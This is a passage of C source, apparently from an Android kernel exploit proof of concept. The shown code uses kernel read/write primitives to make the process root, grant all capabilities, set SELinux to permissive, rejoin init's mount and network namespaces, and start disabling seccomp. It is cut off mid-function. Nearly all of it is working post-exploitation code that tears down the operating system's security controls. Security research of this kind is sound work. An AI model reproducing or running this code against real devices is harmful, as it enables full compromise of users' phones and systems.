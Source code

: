 ```c
    printf("Something went wrong changing our UID to root!\n");
    exit(1);
  }

  printf("UIDs changed to root!\n");

  // reset securebits
  kernel_write_uint(my_cred+0x24, 0);

  // change capabilities to everything (perm, effective, bounding)
  for (int i = 0; i < 3; i++)
    kernel_write_ulong(my_cred+0x30 + i*8, 0x3fffffffffUL);

  printf("Capabilities set to ALL\n");

  // Grant: was checking for this earlier, but it's not set, so I moved on
  // printf("PR_GET_NO_NEW_PRIVS %d\n", prctl(PR_GET_NO_NEW_PRIVS, 0, 0, 0, 0));

  unsigned int enforcing = kernel_read_uint(kernel_base + SYMBOL__selinux_enforcing);

  printf("SELinux status = %u\n", enforcing);

  if (enforcing) {
    printf("Setting SELinux to permissive\n");
    kernel_write_uint(kernel_base + SYMBOL__selinux_enforcing, 0);
  } else {
    printf("SELinux is already in permissive mode\n");
  }

  // Grant: We want to be as powerful as init, which includes mounting in the global namespace
  printf("Re-joining the init mount namespace...\n");
  int fd = open("/proc/1/ns/mnt", O_RDONLY);

  if (fd < 0) {
    perror("open");
    exit(1);
  }

  if (setns(fd, CLONE_NEWNS) < 0) {
    perror("setns");
    exit(1);
  }

  printf("Re-joining the init net namespace...\n");

  fd = open("/proc/1/ns/net", O_RDONLY);

  if (fd < 0) {
    perror("open");
    exit(1);
  }

  if (setns(fd, CLONE_NEWNET) < 0) {
    perror("setns");
    exit(1);
  }

  // Grant: SECCOMP isn't enabled when running the poc from ADB, only from app contexts
  if (prctl(PR_GET_SECCOMP) != 0) {
    printf("Disabling SECCOMP\n");

    // Grant: we need to clear TIF_SECCOMP from task first, otherwise, kernel WARN
```